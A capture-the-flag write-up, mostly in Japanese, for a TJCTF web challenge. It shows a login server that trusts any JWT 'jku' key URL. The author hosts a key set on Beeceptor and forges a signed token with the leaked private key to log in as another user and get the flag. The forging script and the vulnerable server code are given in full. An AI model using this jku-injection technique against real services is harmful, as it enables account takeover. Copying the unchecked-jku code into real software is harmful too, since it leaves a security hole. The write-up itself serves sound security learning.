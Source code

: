 # portalstrology:web:XXXXpts
I applied to DNU this year, and the admission results are coming out on May 17! But I really want to know my decision now though. I heard that other colleges had problems with accidentally leaking college decisions, you think DNU did the same?  
Unfortunately, I forgot my password too, so you gotta figure that out as well. My username is `superigamerbean`.  
[dnu-financial-aid.tjc.tf](https://dnu-financial-aid.tjc.tf/)  

Downloads  
[server.zip](server.zip)  

# Solution
サイトとソースが渡される。  
May 17, 5 PM EDTに情報公開があるらしいがCTFが終わっている。  
DNU Financial Aid Center  
[site.png](site/site.png)  
ひとまず登録し、ログインすると申請していないといわれる。  
[finaid.png](site/finaid.png)  
おそらく問題文に書かれている`superigamerbean`でログインし、公開されていない未来の情報を読み取る必要がありそうだ。  
ソースは以下のようであった。  
```js
~~~
function generate_token(req, res, next) {
    const username = req.body.username
    const privatekey = fs.readFileSync(`${__dirname}/private/private.key`, 'utf8')
    const token = jwt.sign(
        {
            username,
        },
        privatekey,
        {
            algorithm: 'RS256',
            expiresIn: "2h",
            header: {
                alg: 'RS256',
                jku: process.env.ENV === "development" ? 'http://localhost:3000/jwks.json' : 'https://dnu-financial-aid.tjc.tf/jwks.json',
                kid: '1',
            }
        }
    )
    res.cookie("jwt", token)
    next()
}

function check_logged_in(req, res, next) {
    try {
        const token = req.cookies.jwt
        const decoded = jwt.verify(token, SECRET)
        res.redirect('/finaid')
    }
    catch {
        next()
    }
}

async function check_token(req, res, next) {
    try {
        const token = req.cookies.jwt

        const { header } = jwt.decode(token, { complete: true })
        const { kid } = header
        const jwksURI = header.jku

        await axios.get(jwksURI).then(function (response) {
            const signedKey = response.data
            const keySet = jwk.JWKSet.fromObject(signedKey)
            const key = keySet.findKeyById(kid).key.toPublicKeyPEM()

            const decoded = jwt.verify(token, key, { algorithms: ['RS256'] })

            res.locals.username = decoded.username
            res.locals.iat = decoded.iat
            next()
        })
    }
    catch {
        res.redirect('/logout')
    }
}
~~~
app.get('/finaid', [check_token, check_user_applied], (req, res) => {
    if (res.locals.iat >= 1652821200) {
        res.render('finaid', { flag: `${FLAG}`, username: res.locals.username, applied: res.locals.applied })
    }
    else {
        res.render('finaid', { flag: undefined, username: res.locals.username, applied: res.locals.applied })
    }
})
~~~
```
`iat`が`1652821200`以上であればflagが得られるようだ。  
パスワードを予測したログインなどはできるわけもなく、`iat`の条件も満たせないので、jwtの改竄を目指すこととする。  
ソースにprivate.keyが含まれているため、こちらを利用しjwtを改竄しようとするが失敗する。  
問題サーバのものと異なると予測し、サーバのjwksとローカルのjwksを比較してみる。  
```bash
$ curl https://dnu-financial-aid.tjc.tf/jwks.json
{
    "keys": [
        {
            "kty": "RSA",
            "n": "0m3czq66wDL6nUxIVKrS2jq6YCP8c4bcnB4HKIYDrheD2wDN7cU0MBwXWMXZkbJTlmyLjbRTEsaRzpIag-pqI_dfaV_EON_j3F6WCGkGJYqu-In5cPvQpk-zQbRIDVB1VDRq0J4jtgyW-wx6-crlUhFibqN772qAKC0S6rPX6bD_2zxjRxxgcugxiJKOnPt8MRSWH-e7oWZkhhwI6drqHEN04DyiHzhDXpn4CvBkWnWCyxNMw2nNRdzkemhBXZQXs7unMuJv242uIl2E0zu5hE0FJvPH111GbFlVN1h2r7QcgKvmTA0WC5sz-b7YSdAb9O6X6gwtAe_1aFr9cGXl0w",
            "e": "AQAB",
            "alg": "RS256",
            "kid": "1",
            "use": "sig"
        }
    ]
}
$ curl http://localhost:3000/jwks.json
{
    "keys": [
        {
            "kid": "1",
            "kty": "RSA",
            "e": "AQAB",
            "use": "sig",
            "alg": "RS256",
            "n": "i30G3xbJG_4e61yFwteP7A7uqLeS08eSwbqnCQgGEb0yr0qElOzrukB21JjjWeEf5dJeDMEy5-fVYgIMTpcaxOf9sumlkpLP-izwjRqcerui76DzFl0vimSGkwZzgTQzV7u1pRkpOxisakarjnVxX0483X7jIS1P2JaQYSfyAaNCJkbeheviMqll65OUOZf-r2CqwfGDxGMZlO4iB0PSkJnAtyn0WGj-Z5aO5t3QWAB7Z3pbJ7oA-KPMqV_x1xX9Bb3sKs-8rjuMuTgDwAY84xOaiJQ5tv7i7RsnztKi1NjleQRxflZPww7A5go5icLn2ls2D44TPT8KugdpAOk7aQ"
        }
    ]
}
```
やはり異なるようだ。  
これでは改竄できないと思いながらjwtを見ていると以下のようになっていた。  
![jwt.png](images/jwt.png)  
`"jku": "https://dnu-financial-aid.tjc.tf/jwks.json"`との指定がなされている。  
ソースより、サーバ側でこちらのチェックをしているようだが何の制限もないことがわかる。  
つまりこのjkuをローカルのjwksをホスティングしたものに変え、ソースとして配布されたprivate.keyで署名すると正規のjwtとして成り立つ。  
あとは`username`と`iat`を改竄してやればよい。  
まずは[Beeceptor](https://beeceptor.com/)でローカルと同じjwksをホスティングする。  
```bash
$ curl https://satoki.free.beeceptor.com/jwks.json
{
    "keys": [
        {
            "kid": "1",
            "kty": "RSA",
            "e": "AQAB",
            "use": "sig",
            "alg": "RS256",
            "n": "i30G3xbJG_4e61yFwteP7A7uqLeS08eSwbqnCQgGEb0yr0qElOzrukB21JjjWeEf5dJeDMEy5-fVYgIMTpcaxOf9sumlkpLP-izwjRqcerui76DzFl0vimSGkwZzgTQzV7u1pRkpOxisakarjnVxX0483X7jIS1P2JaQYSfyAaNCJkbeheviMqll65OUOZf-r2CqwfGDxGMZlO4iB0PSkJnAtyn0WGj-Z5aO5t3QWAB7Z3pbJ7oA-KPMqV_x1xX9Bb3sKs-8rjuMuTgDwAY84xOaiJQ5tv7i7RsnztKi1NjleQRxflZPww7A5go5icLn2ls2D44TPT8KugdpAOk7aQ"
        }
    ]
}
```
次に以下のsato_jwt.jsにてjwtを生成する。  
`_private.key`は作成してもよい(言うまでもないがjkuを変更する必要がある)。  
今回は面倒なのですべて配布されたソースのものを使う。  
```js
const fs = require("fs")
const jwt = require("jsonwebtoken")

const username = "superigamerbean";
const iat = 1652821200;
const privatekey = fs.readFileSync(`_private.key`, 'utf8')
const token = jwt.sign(
    {
        username,
        iat,
    },
    privatekey,
    {
        algorithm: 'RS256',
        expiresIn: "2h",
        header: {
            alg: 'RS256',
            jku: 'https://satoki.free.beeceptor.com/jwks.json',
            kid: '1',
        }
    }
);

console.log(token);
```
実行する。  
```bash
$ node sato_jwt.js
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IjEiLCJqa3UiOiJodHRwczovL3NhdG9raS5mcmVlLmJlZWNlcHRvci5jb20vandrcy5qc29uIn0.eyJ1c2VybmFtZSI6InN1cGVyaWdhbWVyYmVhbiIsImlhdCI6MTY1MjgyMTIwMCwiZXhwIjoxNjUyODI4NDAwfQ.VtvQQIvgJ5diSVAIfB52MMOYmTCEGygGPd4ichabdXSAlusReTLslzE7Ye4kaOdSz45tQpW8ry1kPBvzZlVu-haPSV3LXv6zvZwcAr7KwV4SnwTiqgWrbndj82iMLduO4vCa5D8nZYUfkvWOmi_upmr_exOm9HiJSsOUSYLqMyR9jmZCsduuRfz_MPlBCLbATZucZz7w22RspISdDF5RfP4XQI0r63-fAhu0jmeFgk8hmRU_WxdO_iVjnwmWCV80-kJTyM6zsIEdyGMkJJXDp7atplQiKa5WmKEGQNi-qHxZhozAMM2PrcUg109gUQngwLPrw7Y3pEwIZm8VDFeOMg
```
あとはjwtをcookieに設定してやればよい。  
`/finaid`にアクセスする。  
flag  
[flag.png](site/flag.png)  
ログインに成功し、flagが書かれていた。  

## tjctf{c01l3ges_plz_st0p_th3_l34k5}